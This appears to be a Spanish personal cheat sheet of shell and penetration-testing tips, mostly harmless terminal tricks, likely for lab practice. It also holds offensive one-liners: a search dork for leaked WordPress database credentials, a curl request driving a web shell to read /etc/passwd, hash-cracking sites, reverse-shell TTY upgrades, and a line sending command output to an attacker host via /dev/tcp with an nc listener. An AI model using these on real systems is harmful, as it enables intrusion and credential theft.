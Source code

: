 - Kill %  o Kill $!--> matar proceso que acabo de dejar en 2º plano

- Reduce el tamaño de ejecutables 
1. go build -ldflags "-s -w"

- upx ffuf --> le quita peso al binario

- Enviar errors fuera de la terminal y hacer independiente la ventana
1. burpsuite captura.cap &> /dev/null & disown

- Encontrar credens de bases de datos de wordpress
1. inurl:wp-config.php.txt

- Saber Sistema operativo por TTL
 1. https://subinsb.com/default-device-ttl-values/

- Terminal interactiva una vez reverse shell
1. script /dev/null -c bash

- Saber qué shell es
1. echo $0

- Ir al directorio anterior --> pushd, popd

- Poner colores a la lectura de un script
1. cat -l bash

- **rlwrap**
1. Sirve para adaptar las shells de forma interactiva

- **Páginas de crackeo**
1. [Crackthehash](https://hashes.com)
2. [Crackstation](https://crackstation.com)
3. [OnlineHashCrack](https://www.onlinehashcrack.com/)

- Dónde está el binario y ver info con ll sin mover del directorio
1. which nmap | xargs ls -la

- Copiar contenido de un archivo sin meterse en él
```bash
cat archivazo.txt | xclip -sel clip
```


- **ctrl+ u** en una web para que salga un json o cualquier archivo con un formato correcto
- si un user pertenece al grupo **adm**, será capaz de ver los logs de cualquier app
- Para URL encodear y mandar data como con **--data** con curl
```bash
curl -s -X GET "http://localhost:puerto/upload/archivo.php" -G --data-urlencode "cmd=cat /etc/passwd"
```

- PAra enviar comandos a un puerto en escucha

```bash
`whoami > /dev/tcp/ipatacante/8080 0>&1`
nc -nlvp 8080
```

- Para saber si un proceso por un puerto está corriendo PJ: 22
```bash
echo '' > /dev/tcp/ip/22
```